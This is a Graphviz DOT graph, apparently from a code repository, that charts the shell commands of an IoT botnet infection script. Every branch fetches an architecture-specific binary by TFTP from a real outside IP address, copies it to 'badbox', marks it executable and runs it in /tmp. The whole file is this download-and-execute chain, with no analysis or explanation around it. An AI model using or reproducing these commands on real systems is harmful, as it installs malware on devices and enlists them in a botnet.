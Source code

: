 digraph {
0 [label="ulimit -n 999999 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
148 [label="cd /tmp "];
148 -> 148
6 [label="tftp 173.212.225.13 -c get jackmymips "];
6 -> 8 [label=";,"];
8 [label="cat jackmymips badbox "];
8 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
18 [label="tftp 173.212.225.13 -c get jackmymipsel "];
18 -> 20 [label=";,"];
20 [label="cat jackmymipsel badbox "];
20 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
30 [label="tftp 173.212.225.13 -c get jackmysh4 "];
30 -> 32 [label=";,"];
32 [label="cat jackmysh4 badbox "];
32 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
42 [label="tftp 173.212.225.13 -c get jackmyx86 "];
42 -> 44 [label=";,"];
44 [label="cat jackmyx86 badbox "];
44 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
54 [label="tftp 173.212.225.13 -c get jackmyarmv6 "];
54 -> 56 [label=";,"];
56 [label="cat jackmyarmv6 badbox "];
56 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
66 [label="tftp 173.212.225.13 -c get jackmyi686 "];
66 -> 68 [label=";,"];
68 [label="cat jackmyi686 badbox "];
68 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
78 [label="tftp 173.212.225.13 -c get jackmypowerpc "];
78 -> 80 [label=";,"];
80 [label="cat jackmypowerpc badbox "];
80 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
90 [label="tftp 173.212.225.13 -c get jackmyi586 "];
90 -> 92 [label=";,"];
92 [label="cat jackmyi586 badbox "];
92 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
102 [label="tftp 173.212.225.13 -c get jackmym86k "];
102 -> 104 [label=";,"];
104 [label="cat jackmym86k badbox "];
104 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
114 [label="tftp 173.212.225.13 -c get jackmysparc "];
114 -> 116 [label=";,"];
116 [label="cat jackmysparc badbox "];
116 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
126 [label="tftp 173.212.225.13 -c get jackmyarmv4 "];
126 -> 128 [label=";,"];
128 [label="cat jackmyarmv4 badbox "];
128 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
138 [label="tftp 173.212.225.13 -c get jackmyarmv5 "];
138 -> 140 [label=";,"];
140 [label="cat jackmyarmv5 badbox "];
140 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
150 [label="tftp 173.212.225.13 -c get jackmypowerpc440 "];
150 -> 152 [label=";,"];
152 [label="cat jackmypowerpc440 badbox "];
152 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
}
